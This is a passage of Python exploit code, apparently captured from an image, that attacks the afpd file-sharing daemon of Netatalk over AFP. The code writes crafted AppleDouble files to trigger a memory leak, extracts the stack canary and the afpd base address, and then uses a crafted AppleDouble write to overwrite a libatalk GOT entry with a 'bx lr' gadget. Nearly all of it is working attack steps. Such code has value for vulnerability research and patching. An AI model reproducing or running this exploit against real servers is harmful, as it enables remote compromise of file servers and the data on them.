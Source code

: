 ```plain
response, request_id, fork1 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2,tempfile_name_normal, debug)

data = b'Hello'
response, request_id = FPWriteExt(p, request_id, fork1, 0, len(data), data, debug)
response, request_id = FPCloseFork(p, request_id, fork1, debug)

# create an appledouble file on target
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)
response, request_id, fork2 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2, tempfile_name_adouble, debug)
response, request_id = FPWriteExt(p, request_id, fork2, 0, len(appledouble), appledouble, debug)    

# time to trig the leak
response, request_id, fork3 = FPOpenFork(p, request_id, 1, volume_id, 2, 0, 3, 2, tempfile_name_normal, debug)

# get the leak inside appledouble
response, request_id = FPReadExt(p, request_id, fork2, 0, 128, debug)

print('response:\n----------------\n'+hexdump(response))
canary = u32(response[0x42:0x46], endian='little')
leak3 = u32(response[0x5e:0x62], endian='little')
afpd_base = leak3 - 0x49a80
print('\nafpd base= '+hex(afpd_base)+'   (leak3 = '+hex(leak3)+')')
print('canary (cuicui) = '+hex(canary))

response, request_id = FPCloseFork(p, request_id, fork2, debug)
response, request_id = FPCloseFork(p, request_id, fork3, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)

# step 4:  overwrite ad_rebuild_adouble_header_osx got entry with gadget: bx lr
# -------------------------------------------------------- first write
cpt_file_name += 1
tempfile_name_normal = str.encode('{}_{}'.format(tempfile_name, cpt_file_name))
tempfile_name_adouble = str.encode('._{}_{}'.format(tempfile_name, cpt_file_name))

gadget_bx = afpd_base+0x0000695d
got1 = libatalk+0x70774 # libatalk's ad_rebuild_adouble_header_osx got entry
ad = craft_write_AppleDouble((got1 - (mmap_zone+32)), p32(gadget_bx,endian='little'))       # replace ad_rebuild_adouble_header_osx@got entry by: bx lr gadget

# create a simple file with bullshit inside
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id, fork1 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2,tempfile_name_normal, debug)
data = b'Hello'
response, request_id = FPWriteExt(p, request_id, fork1, 0, len(data), data, debug)
response, request_id = FPCloseFork(p, request_id, fork1, debug)
# create an appledouble file on target
response, request_id = FPCreateFile(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)
response, request_id, fork2 = FPOpenFork(p, request_id, 0, volume_id, 2, 0, 3, 2, tempfile_name_adouble, debug)
response, request_id = FPWriteExt(p, request_id, fork2, 0, len(ad), ad, debug)    
# time to trig the vuln
response, request_id, fork3 = FPOpenFork(p, request_id, 1, volume_id, 2, 0, 3, 2, tempfile_name_normal, debug)
response, request_id = FPCloseFork(p, request_id, fork2, debug)
response, request_id = FPCloseFork(p, request_id, fork3, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_normal, debug)
response, request_id = FPDelete(p, request_id, volume_id, 2, 2, tempfile_name_adouble, debug)
```